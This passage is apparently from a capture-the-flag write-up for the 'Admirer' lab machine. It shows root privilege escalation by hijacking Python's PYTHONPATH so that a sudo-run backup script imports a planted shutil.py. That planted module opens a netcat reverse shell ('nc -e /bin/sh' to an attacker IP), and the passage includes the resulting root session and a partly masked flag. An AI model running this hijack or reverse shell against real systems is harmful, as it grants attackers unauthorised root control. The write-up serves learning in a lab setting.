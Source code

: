 If we take a look at the Python script called, it is also fairly simple.

```python
# backup.py

#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

One interesting environment variable available is `PYTHONPATH`. If we change this variable, we can choose where Python looks first to import packages. Using this, we could create our own `shutil.py` and get code execution as root and create a simple reverse shell.

```python
# shutil.py

#!/usr/bin/python3

import os

def make_archive(*args):
    os.system("nc -e /bin/sh 10.10.15.17 1234")
```

We can now put this file on the system, execute `admin_tasks.sh` as root with the `PYTHONPATH` variable set and get the flag.

```
waldo@admirer:/tmp/test$ sudo PYTHONPATH=/tmp/test/ /opt/scripts/admin_tasks.sh 

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```

```
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.17] from (UNKNOWN) [10.10.10.187] 51654
whoami
root
cat /root/root.txt
b8ba6d**************************
```
